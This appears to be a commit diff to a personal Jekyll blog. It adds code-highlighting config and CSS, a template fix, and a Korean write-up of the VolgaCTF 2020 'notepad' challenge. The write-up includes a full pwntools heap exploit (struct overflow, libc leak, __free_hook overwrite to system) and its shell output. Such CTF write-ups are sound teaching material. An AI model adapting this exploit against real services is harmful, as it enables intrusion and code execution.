

Before and after one commit to powerprove/powerprove.github.io, a Jekyll site: the page built from _posts/2019-09-13-N1CTF-line.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
[+] add code hilighting line

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -31,7 +31,21 @@
 
 # system variables, do not change unless you knew what's it does.
 paginate_path: page/:num
+
+
 markdown: kramdown
+kramdown:
+  input:          GFM
+  syntax_highlighter: rouge
+
+  syntax_highlighter_opts:
+    css_class: 'highlight'
+    span:
+      line_numbers: false
+    block:
+      line_numbers: true
+      start_line: 1
+
 redcarpet:
   extensions: ["tables"]
 
--- /dev/null
+++ b/_posts/2020-03-30-Volga-notepad.md
@@ -0,0 +1,147 @@
+---
+title: volgaCTF notepadd write up
+categories: [2020, volga, new]
+tags: [CTF, linux, heap, baby]
+---
+
+volga ctf notepad write up
+
+간만에 보는 쉬운 heap 문제
+
+# analyze
+   이 프로그램의 기능은 bss영역에 notebook structure를 만들고 notebook하나를 선택해서 data를 힙에다가 저장하는 프로그램이다.
+   data를 힙에 저장하고 나온 return값은 notebook structure안에 있다.
+
+``` c++
+int add()
+{
+  __int64 v1; // rax
+  char *v2; // ST08_8
+
+  if ( noteNum == 16 )
+    return puts("You've reached the limit for notebooks! Delete some of the older once first!");
+  v1 = noteNum++;
+  v2 = (char *)&unk_203060 + 0x818 * v1;
+  printf("Enter notebook name: ");
+  return __isoc99_scanf("%s", v2);__
+}
+```
+
+   취약점은 notbook을 만드는데 scanf("%s")로 받기 때문에 오버플로우가 발생한다. 때문에 notebook의 structure를 내 맘대로 조절이 가능하다.
+
+# solve
+   notebook 2개를 생성후 2번 notebook에 data를 만든다. 그리고 notebook 2번을 지우고 생성하면 notebook 2번의 구조체안을 조절할 수 있다.
+   한 data의 길이를 0x1000으로 생성해주고 지운다음에 그 전 data의 길이 영역을 늘려주면 libc leak을 할수가 있다.
+   그 후 data의 포인터 값을 `__free_hook`로 바꿔주고 update를 통해서 system의 주소로 바꿔주면 된다.
+
+# ex.py
+``` python
+#!/usr/bin/env/python
+# powerprove
+
+from pwn import *
+import sys
+
+if len(sys.argv) < 2:
+    host = "localhost"
+    port = 4000
+else:
+    host = "notepad.q.2020.volgactf.ru"
+    port = 45678
+
+def menu(index):
+    s.recvuntil("> ")
+    s.sendline(str(index))
+
+def sendpay(pay):
+    s.recvuntil(": ")
+    s.sendline(pay)
+
+def addNote(name):
+    menu('a')
+    sendpay(name)
+
+def delete(index):
+    menu('d')
+    sendpay(str(index))
+
+def update(index, name, length, data):
+    menu('u')
+    sendpay(str(index))
+    sendpay(name)
+    sendpay(str(length))
+    sendpay(data)
+
+def view(index):
+    menu('v')
+    sendpay(str(index))
+
+def pick(index):
+    menu('p')
+    sendpay(str(index))
+
+def addTab(name, length, data):
+    menu('a')
+    sendpay(name)
+    sendpay(str(length))
+    sendpay(data)
+
+def pwn():
+    addNote("powerprove_1")
+    addNote("powerprove_2")
+    pick(2)
+    addTab("tab1", 20, "tab1")
+    addTab("tab2", 0x1000, "tab2")
+    addTab('tab3', 20, "/bin/sh\x00")
+    delete(2)
+    menu('q')
+
+    delete(1)
+    fakeNote = "A"*0x10
+    fakeNote += p64(3)
+    fakeNote += "B"*0x10
+    fakeNote += p64(0x1000)
+    addNote(fakeNote[:-1])
+
+    pick(2)
+    view(1)
+    s.recv(0x20)
+    libc_base = u64(s.recv(8)) - 0x1e4ca0 - 0x207000
+    free_hook = libc_base + 0x3ed8e8
+    system_addr = libc_base + 0x04f440
+    log.info("libc_base        : " + str(hex(libc_base)))
+    log.info("free_hook        : " + str(hex(free_hook)))
+    log.info("system_addr      : " + str(hex(system_addr)))
+    menu('q')
+
+    delete(1)
+    fakeNote = "A"*0x10
+    fakeNote += p64(3)
+    fakeNote += "B"*0x10
+    fakeNote += p64(0x1000)
+    fakeNote += p64(free_hook) # 0x1e5960
+    addNote(fakeNote[:-1])
+
+    pick(2)
+    update(1, "/bin/sh\x00", "9\x00", p64(system_addr))
+    delete(2)
+
+if __name__ == "__main__":
+    s = remote(host, port)
+    pwn()
+    s.interactive()
+```
+# result
+``` sh
+➜  notepadd python ex.py r
+[+] Opening connection to notepad.q.2020.volgactf.ru on port 45678: Done
+[*] libc_base        : 0x7f2c5dba7000
+[*] free_hook        : 0x7f2c5df948e8
+[*] system_addr      : 0x7f2c5dbf6440
+[*] Switching to interactive mode
+$ id
+uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
+$ cat flag.txt
+VolgaCTF{i5_g1ibc_mall0c_irr3p@rable?}
+$
+```
--- a/css/main.sass
+++ b/css/main.sass
@@ -41,6 +41,38 @@
 html, body, div.container
     height: 100%
 
+.lineno
+  color: #ccc
+  display: inline-block
+  padding: 0 5px
+  border: 0px
+  border-right: 1px solid #ccc
+  margin-bottom: 0px
+  -webkit-touch-callout: none
+  -webkit-user-select: none
+  -khtml-user-select: none
+  -moz-user-select: none
+  -ms-user-select: none
+  user-select: none
+
+.rouge-code pre
+  padding: 0px
+  border: 0px
+  margin-bottom: 0px
+
+pre.highlight
+  margin: 0 0 0 0px
+  padding: 0px
+  padding-bottom: 0px
+  border: 0px
+  height: calc(100% - 20px)
+
+table.rouge-table
+  padding: 0px
+  border-top: 0px
+  margin-bottom: 0px
+
+
 #main-row
     min-height: 100%
 
--- a/writeup.html
+++ b/writeup.html
@@ -2,13 +2,13 @@
 title: Blog Write up
 ---
 
+{% for ctf_year in (2019..2020) %}
 <ul class="list-group">
   {% assign year_count = 1 %}
   {% assign ctf_count = 1 %}
   {% assign ctfName = "NULL" %}
 
-{% for post in site.categories[2019] %}
-
+  {% for post in site.categories[ctf_year] %}
   {% capture year %}{{ post.date | date: "%Y" }}{% endcapture %}
   {% capture next_year %}{{ post.next.date | date: "%Y" }}{% endcapture %}
   {% capture prev_year %}{{ post.previous.date | date: "%Y" }}{% endcapture %}
@@ -26,7 +26,8 @@
 
       {% if ctfName != post.categories[1] %}
       {% if ctfName != "NULL" %}
-        </ul></li>
+    </ul>
+  </li>
   {% assign ctf_count = 1 %}
   {% endif %}
   {% assign ctfName = post.categories[1] %}
@@ -46,7 +47,8 @@
       </li>
 
       {% if year != prev_year or forloop.last %}
-      </ul></ul>
+    </ul>
+</ul>
 <span class="badge">{{ year_count }}</span>
 {% assign year_count = 1 %}
 </li>
@@ -54,3 +56,4 @@
 
 {% endfor %}
 </ul>
+{% endfor %}
````
Lines whose indentation alone changed are shown as unchanged.
